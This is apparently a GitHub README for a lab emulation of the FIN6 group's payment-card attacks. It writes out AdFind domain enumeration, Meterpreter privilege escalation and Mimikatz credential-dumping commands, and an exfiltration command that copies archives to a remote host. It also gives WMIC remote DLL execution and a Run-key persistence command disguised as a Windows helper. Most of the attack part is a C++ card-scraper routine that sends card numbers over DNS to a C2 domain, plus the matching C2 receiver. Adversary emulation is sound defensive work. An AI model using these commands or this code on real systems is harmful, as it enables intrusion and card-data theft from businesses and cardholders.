








# FIN6 Adversary Emulation Project

This project emulates the tactics, techniques, and procedures (TTPs) of the FIN6 advanced persistent threat (APT) group. FIN6 is known for targeting payment card data in point-of-sale (POS) environments, leveraging techniques such as memory scraping, credential dumping, and exfiltration via DNS tunneling. This emulation focuses on phases 1 and 2 of the FIN6 attack.



*Sourced from Center for Threat-Informed Defense’s analysis of FIN6.*

---

Phase 1 Start by Phishing email which downloads a Word doc file after opening it. a PowerShell metasploit payload runs after the Discovery of Users, Computers, Groups, OU, and other parts of the domain after that, the attacker compresses and extracts all that data using SSH through that attacker doing Privilege Escalation using various methods.

Phase 2: had 3 Scenarios

```
Scenario 1 - Attacking Point of Sale (POS) Systems

Scenario 2 - Attacking E-Commerce Platforms

Scenario 3 - Deploying Ransomware
```

*Sourced from Center for Threat-Informed Defense’s analysis of FIN6.*


## Overview

The primary goal of this emulation is to provide a realistic representation of FIN6 TTPs in a controlled environment for educational and research purposes. This project includes:
- An infected Word document simulating a phishing payload.
- The `adfind.exe` tool for Active Directory enumeration.
- A C++ memory scraper targeting sensitive card data.
- A custom C2 server receiving exfiltrated data via DNS tunneling.


## Phases Breakdown

### Phase 1




#### Initial Access

Spearphishing Attachment: T1566.001 


#### Execution

Command and Scripting Interpreter: PowerShell: T1059.001

FIN6 has targeted victims with e-mails containing malicious attachments Craft a malicious Word document with embedded macros that execute the Metasploit PowerShell payload upon opening.

[infectd_word_doc](Phase1/infected_word_doc.doc)

---




#### Discovery

FIN6 USED AdFind.exe to Find all person objects and output the results to a text file, Identify all computer objects and output the results to a text file, Enumerate all Organizational Units (OUs) in the domain of the user running the command and output the results to a text file, Performs a full forest search and dumps trust objects to a text file, List subnets and output the results to a text file, List groups and output the results to a text file. 


```cmd
adfind.exe -f (objectcategory=person) > ad_users.txt             # Account Discovery: Domain Account (T1087.002)
adfind.exe -f (objectcategory=computer) > ad_computers.txt       # Remote System Discovery (T1018) 
adfind.exe -f (objectcategory=organizationalUnit) > ad_ous.txt   # Domain Trust Discovery (T1482) 
adfind.exe -gcb -sc trustdmp > ad_trustdmp.txt                   # Domain Trust Discovery (T1482)
adfind.exe -subnets -f (objectcategory=subnet) > ad_subnets.txt  # System Network Configuration Discovery (T1016)
adfind.exe -f (objectcategory=group) > ad_group.txt              # Permission Groups Discovery: Domain Groups (T1069.002)
```

#### Privilege Escalation

FIN6 used various methods to Escalate their Privilege

FIN6 was reported to have escalated privileges to SYSTEM by using the named-pipe impersonation technique featured in the Metasploit framework
Access Token Manipulation: (T1134)

```sh
getsystem -t 1
```

FIN6 was reported to use Mimikatz to make OS Credential Dumping. We Will use  Mimikatz from a Meterpreter session.
OS Credential Dumping: LSASS Memory: T1003.001

```sh
load kiwi
creds_all
```



FIN6 was reported to  use Metasploit's psexec_ntdsgrab module. This module authenticates to the domain controller, creates a volume shadow copy of the system drive, and downloads copies of the NTDS.dit and SYSTEM hive. 
OS Credential Dumping: NTDS: T1003.003 



#### Collection

FIN6 was reported to  use 7zip (7.exe), on the designated staging system, to compress the text files resulting from internal discovery.
Archive Collected Data: Archive via Utility: T1560.001 



#### Exfiltration 

FIN6 was reported to exfiltrate the 7Zip files resulting from the Discovery Phase via SSH
Exfiltration Over Web Service: Exfiltration to Cloud Storage: T1567.002

```sh
pscp.exe -P {port} {path_on_windows}\ad.7z root@192.168.1.13:/temp/
```

---

### Phase2: Scenario 1 - Attacking Point of Sale (POS) Systems



FIN6 used FrameworkPOS Malware: so I right in C++ emulation of that


---

### FrameworkPOS Emulation

in [Phase2/FIN6_emulation-FrameworkPOS](Phase2/FIN6_emulation-FrameworkPOS)

This project includes a custom **FrameworkPOS** emulator developed to simulate the card scraping techniques used by the FIN6 group. The purpose of this emulator is to replicate the memory scraping tactics often employed by POS malware to extract sensitive credit card information from running applications.

#### Key Features

- **Process Targeting**: The emulator can identify and attach to a specific process (e.g., `simple_victim_pos`) to begin scraping memory regions.
- **Memory Scraping**: It scans committed memory regions for patterns matching typical credit card numbers.
- **Luhn Check Validation**: Once potential card data is identified, the emulator applies the **Luhn algorithm** to validate the detected card numbers, reducing false positives.
- **DNS Exfiltration**: Validated card numbers are exfiltrated via DNS queries to a designated C2 server. This replicates FIN6’s tactic of sending sensitive data to an external server through non-standard channels.
- **Multithreading for Exfiltration**: Detected card numbers are processed in separate threads for asynchronous exfiltration, ensuring efficient data handling without interrupting the memory scraping process.

#### Code Explanation

Here’s a breakdown of key components in the FrameworkPOS emulation:

1. **Process Identification**: The function `GetPID()` searches for and retrieves the process ID of the target application (in this case, `simple_victim_pos`), allowing the scraper to attach to the appropriate process memory.
   
2. **Luhn Algorithm Validation**: The `luhnCheck()` function verifies if detected card numbers meet the validity requirements of a typical credit card number. This helps in filtering out unrelated data.

3. **Memory Scanning and Pattern Matching**:
   - Using regular expressions, the program identifies sequences that match the pattern of a credit card number (four sets of four digits).
   - The `VirtualQueryEx` and `ReadProcessMemory` Windows API functions are employed to scan the memory regions of the target process for sensitive data.

4. **DNS Exfiltration Function**:
   - The `sendToExfiltrate()` function constructs DNS queries containing card data and sends these to a custom DNS C2 server.
   - The server IP is specified as `192.168.1.13` (modifiable), and each query includes the detected card number encoded within the subdomain.

5. **Asynchronous Data Exfiltration**:
   - For each identified and validated card number, a new thread is created via `CreateThread` to asynchronously send the data to the C2 server.
   - This ensures that the main memory scanning process runs continuously without delays from exfiltration operations.

#### Example Code Snippet

Here is an example of the function that performs DNS exfiltration:

```cpp
void sendToExfiltrate(string card_data){
    DNS_STATUS status;
    string domain_name = ".ns.zkamaz1902.com";
    PDNS_RECORD pDnsRecord = nullptr;
    char* pOwnerName = strdup((card_data + domain_name).c_str());
    WORD wType = DNS_TYPE_A;

    PIP4_ARRAY pSrvList = (PIP4_ARRAY)malloc(sizeof(IP4_ARRAY));
    pSrvList->AddrCount = 1;
    pSrvList->AddrArray[0] = inet_addr("192.168.1.13");  // IP of C2 DNS server

    status = DnsQuery_A(pOwnerName, wType, DNS_QUERY_BYPASS_CACHE, pSrvList, &pDnsRecord, NULL);

    if (pDnsRecord) {
        DnsRecordListFree(pDnsRecord, DnsFreeRecordList);
    }
    free(pSrvList);
}
```

This function constructs and sends DNS queries containing card data to a custom C2 server, emulating the data exfiltration approach used by FIN6.


The custom [FrameworkPOS emulator](Phase2/FIN6_emulation-FrameworkPOS/Release/FIN6_emulation.dll) which it released in Phase2/FIN6_emulation-FrameworkPOS/Release/FIN6_emulation.dll in this project provides an in-depth look at how FIN6 and similar threat actors scrape memory for card data and exfiltrate it using unconventional channels like DNS. This component is intended to serve as an educational example of malware tactics within a controlled environment, aligning with best practices in adversary emulation.

To document your **DNS C2 server** functionality in the README, here’s a detailed section that explains its purpose, features, and the role it plays in the emulation:

---

### Simple Victim POS System

This project includes a **simple POS system** [Phase2/Simple_Victim_PoS](Phase2/Simple_Victim_PoS) emulator designed to mimic the functionality of point-of-sale systems used by businesses. This program holds credit card data in memory, making it suitable for testing the memory-scraping capabilities of the **FrameworkPOS emulator**.

#### Key Features

- **Credit Card Data Capture**: The emulator accepts user input for a credit card number in the format `####-####-####-####`, simulating a real POS system transaction.
- **In-Memory Storage**: Captured card data is stored in memory within a `vector` for easy access by the memory scraper. This allows the FrameworkPOS scraper to identify and exfiltrate the stored card information.
- **Persistent Execution**: The POS system remains active in an infinite loop, keeping the card data in memory and enabling continuous testing of scraping functionality.

#### Usage

1. **Run the POS System**:
   - Compile and execute the POS program. Input a sample card number when prompted.
   
2. **Memory Persistence**:
   - The program keeps the card number in memory, allowing the **FrameworkPOS emulator** to scan and extract the data for exfiltration testing.

3. **Testing the Scraper**:
   - With the POS program running, start the FrameworkPOS memory scraper. The scraper should detect the in-memory card data and proceed with exfiltration via DNS.

---

This **simple POS emulator** provides a controlled environment to test memory-scraping tactics, simulating a critical aspect of FIN6’s operational methods.

---
### DNS C2 Server

This project includes a custom **DNS C2 server** developed to receive exfiltrated data (credit card numbers) via DNS queries. This technique emulates the data exfiltration approach commonly used by advanced threat actors, including FIN6, to covertly send sensitive information from infected machines to a C2 server without raising alarms.

#### Key Features

- **Custom Banner**: A visually styled banner displays when the server starts, providing an engaging and professional appearance.
- **UDP DNS Server**: The server listens on port 53 (UDP) to receive DNS requests containing exfiltrated data from the emulated FrameworkPOS malware.
- **Parsing and Extraction of Card Data**: Upon receiving a DNS request, the server extracts and displays the exfiltrated credit card number if it matches the specified domain format.
- **Real-time Logging**: All received DNS requests are logged in real-time, with visual cues to distinguish between regular queries and exfiltrated data.
- **ANSI Colors**: ANSI color codes are used to enhance readability and distinguish key information in the terminal output.

#### Code Breakdown

1. **DNS Server Initialization**:
   - The server binds to IP `0.0.0.0` on **port 53**, setting it up to listen for DNS requests on the local network.

2. **Data Receiving and Parsing**:
   - The server uses **`recvfrom()`** to receive DNS query data from client machines. Each query is parsed using `dnslib`, which allows for easy extraction of the queried domain name.

3. **Domain Matching and Data Extraction**:
   - If the domain name in the request ends with `.ns.zkamaz1902.com`, the server extracts the preceding subdomain as **card data**. This simulates exfiltration by capturing sensitive information encoded within the DNS query.

4. **Real-time Output with ANSI Colors**:
   - The server uses colored terminal output to visually differentiate between standard DNS requests and extracted card data, providing an intuitive display in the terminal.

#### Example Code Snippet

Here is an example of how the server processes and displays exfiltrated card data in real-time:

```python
# Check for the domain then extract the card
if domain_name.endswith(".ns.zkamaz1902.com."):
    card_data = domain_name.split(".")[0]
    print(f"{BG_GREEN}{DARK_GRAY}{BOLD}[+] Exfiltrated card data: {BG_DARK}{RED}{card_data}{RESET}")
```

#### Usage

1. **Start the C2 Server**:
   - Run the server script to begin listening for DNS requests. The banner displays on startup, followed by a notification indicating that the server is active.
   
   ```bash
   python dns_c2_server.py
   ```

2. **Receive and Log DNS Queries**:
   - As the FrameworkPOS emulator sends DNS requests containing exfiltrated card data, the server captures and logs the information in the terminal.
   - Each detected card number is displayed with a color-coded notification to highlight the exfiltrated data.

3. **Monitor the Terminal**:
   - The terminal provides real-time feedback, showing each request with source IP and extracted data (if applicable).


The DNS C2 server plays a crucial role in the FIN6 emulation by simulating the covert exfiltration of card data over DNS, a technique often employed by threat actors to avoid detection. The combination of `dnslib` and ANSI-colored output makes the server intuitive to use and easy to monitor in real-time, providing a realistic C2 experience in a controlled lab environment.

#### Lateral Movement

Remote Services: Remote Desktop Protocol T1021.001

```
I used rdesktop tool you can use any other tool you like.
```

#### Execution

Windows Management Instrumentation T1047

```
wmic /node:"192.168.1.62" process call create "rundll32.exe c:\windows\User\Administrator\Assistant32.dll,run"
```

#### Persistence

Registry Run Keys T1547.001

```
"C:\Windows\System32\reg.exe" ADD "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Windows Help Assistant" /t REG_SZ /d "rundll32.exe c:\windows\User\Administrator\Assistant32.dll,run" /f

```

#### Exfiltration

PoS data exfiltration over DNS tunnel T1048.003

```
to do that run on your attacking machine:
python3 dns_c2_server.py
```


## Credits

- This emulation project is inspired by open-source intelligence on the FIN6 APT group.
- Tools and techniques align with the MITRE ATT&CK framework.

---
